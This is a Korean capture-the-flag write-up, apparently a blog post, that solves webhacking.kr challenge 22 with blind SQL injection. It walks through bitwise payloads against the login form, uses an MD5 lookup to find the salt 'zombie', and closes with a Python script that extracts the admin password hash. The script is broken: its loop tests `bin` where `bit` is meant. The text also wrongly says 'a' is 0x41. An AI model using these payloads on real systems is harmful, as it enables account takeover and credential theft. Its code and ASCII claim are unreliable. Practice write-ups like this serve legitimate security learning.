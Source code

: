 ```yaml
---
title: "webhacking.kr 22번 문제 풀이"
excerpt_separator: "<!--more-->"
categories:
  - webhacking
tags:
  - webhacking
  - wargame
classes: wide
---
```


[22번 바로가기](http://webhacking.kr/challenge/bonus/bonus-2/)

22번 문제에 들어가면 아래와 같은 화면이 나온다. 생긴게 딱 SQLi 문제같다.

![22번](/img/22번_1.JPG)

밑에 힌트를 보니 admin의 패스워드를 알아내 로그인하면 문제가 풀리는 듯 하다.
회원가입을 위해 join 페이지에 들어가면 id/pw를 등록할 수 있다. 여기서는 id=22, pw=22로 했다. `'`같이 SQLi에 쓰이는 문자을 넣어도 일단 회원가입은 된다.

![22번](/img/22번_2.JPG)

입력한 id와 pw로 로그인할 수 있는데 로그인하면 id와 password의 hash값처럼 보이는 값이 출력된다. 비밀번호가 틀리면 'Wrong!'이 뜬다.

![22번](/img/22번_3.JPG)

![22번](/img/22번_4.JPG)

id= `'` 등 오류가 나는 문자를 입력하면 아래와 같이 오류 메시지가 출력된다.

![22번](/img/22번_5.JPG)

id 입력폼에 여러 값을 넣어본 결과, `union`, `from` 등 SQLi에 쓰이는 일부 값은 필터링된다. 공백, 괄호, `substr()`, `ascii()` 등의 문자열은 필터링되지 않는다.

![22번](/img/22번_6.JPG)

이런 특징을 이용해 Blind SQLi를 할 수 있다. 일반적으로 로그인폼에서 사용되는 쿼리는 다음과 같다.
`SELECT * FROM user WHERE id='$id'and pw='$pw'` 여기서 id 값에 아래와 같이 SQL 문장을 삽입할 수 있다.
`SELECT * FROM user WHERE id='22' or 1=1 #and pw='$pw'` 이렇게 하면 id=22에 해당하는 row가 1개여야 하는데 `or 1=1` 때문에 table내의 모든 row가 select 문의 결과로
나오게된다. 그러면 row가 여러개 존재한다는 에러가 나거나, 가장 위에 존재하는 row에 해당하는 id로 로그인된다.

id=`22' or true #`을 넣고 pw는 비운채 login을 누르면 아래와 같이 다른 페이지로 이동되고 'Wrong password!'라는 문구가 뜬다. 그냥 비밀번호가 틀렸을 때와 다른 반응이다.
id=`22' or false #`를 넣고 pw를 비우고 시도해도 같은 반응이다. pw=22를 넣고 해보면 `22' or true #`의 경우 'Wrong password!'가, `22' or flase #`의 경우 정상적으로 id=22로 로그인된다.
폼의 id 값과 pw값이 각각의 쿼리에 사용되는 것 같다. 어쨌거나 id, pw에 적절한 값을 넣어 SQLi를 할 수 있다.

![22번](/img/22번_7.JPG)

이제 쿼리만 만들면 된다. id에 넣은 값으로 실행되는 쿼리의 결과가 1개일 때와 2개 이상일 때의 차이를 이용하면 된다.
id=`22' or (id='admin' and length(pw)=5)#`, pw=22 이렇게 입력하면 admin의 pw 길이가 5가 맞을 경우 select 문의 결과가 2개 이상이 된다. 그러면 'Wrong password!'가 출력된다.
만약 id 값이 들어간 쿼리의 결과가 1개 즉 id=22번 밖에 없다면 정상적으로 로그인된 화면이 출력된다. 이를 이용해 admin의 pw 길이를 알 수 있는데 32로 나온다.

근데 생각해보니 로그인하면 id 밑에 길이 32의 key값이 출력된다. 회원가입할 때 입력한 pw가 이런식으로 바꿔어서 저장되는 것 같다. 길이가 32니까 MD5 해시일 가능성이 있다.
[여기에서](https://hashkiller.co.uk/Cracker/MD5) MD5 디코딩을 할 수 있다.  id=22로 로그인하면 나오는 key값을 디코딩하니 22zombie로 나온다.

![22번](/img/22번_8.JPG)

입력했던 비밀번호인 22 뒤에 salt로 zombie가 추가된 형태다. 이제 admin의 32글자 pw 해시값만 알아내면 디코딩해서 pw를 구할 수 있다.



id=`22' or (id='admin' and substr(pw, 1, 1)=0x41)#` 이런식으로 1글자씩 비교하여 찾을 수 있는데, 이러면 32글자를 다 찾으려면 한 문자 찾는데 범위 내 모든 ascii값을 시도해 봐야한다.
ascii값을 이진탐색으로 찾아가거나, 비트연산을 사용하는 방법을 사용하면 비교횟수를 줄일 수 있다. 비트연산은 ascii가 1byte니까 (128, 64, 32, 16, 8, 4, 2, 1)과 &(and) 연산을 해서
1비트씩 찾아가는 방법이다. 예를들어 정답이 admin의 pw가 a로 시작한다면 a=0x41 이니까 `ascii(substr(pw, 1, 1))&1=1`, `ascii(substr(pw, 1, 1))&64=64` 만 True가 나온다.
이때 True가 나온 값들을 모두 더하면 (1 + 64 = 65)가 나오고 65는 0x41이며, ascii로 'a'이다. 즉 각 문자당 8번의 비교만으로 값을 찾을 수 있다.
다행히, `substr()`, `ascii()` 등의 문자 및 공백문자, 괄호가 필터링되지 않아 아래와 같은 코드로 쉽게 클리어할 수 있다. 길이 32의 값을 구한 뒤 MD5 디코딩하고 salt인 'zombie'를 제거하고,
id=admin, pw=구한 값을 넣어 로그인하면 된다.

![22번](/img/22번_9.JPG)


```python
import requests
import re


URL = 'http://webhacking.kr/challenge/bonus/bonus-2/index.php'
cookies = {'PHPSESSID': '본인세션값'}
data = {'uuid':'', 'pw':'비밀번호'}
pw = ''

for i in range(1, 33):
    bit = 128
    sum_of_bit = 0
    while bin >= 1:
        data['uuid'] = "아이디' or (id='admin' and ascii(substr(pw,{0},1))&{1}={2})#".format(i, bit, bit)
        response = requests.post(URL, cookies=cookies, data=data)

        if re.findall('Wrong password!', response.text):
            sum_of_bit += bit

        bit = int(bit/2)

    pw += chr(sum_of_bit)
    print('{0} : {1}'.format(i, chr(sum_of_bit)))

print(pw)
```
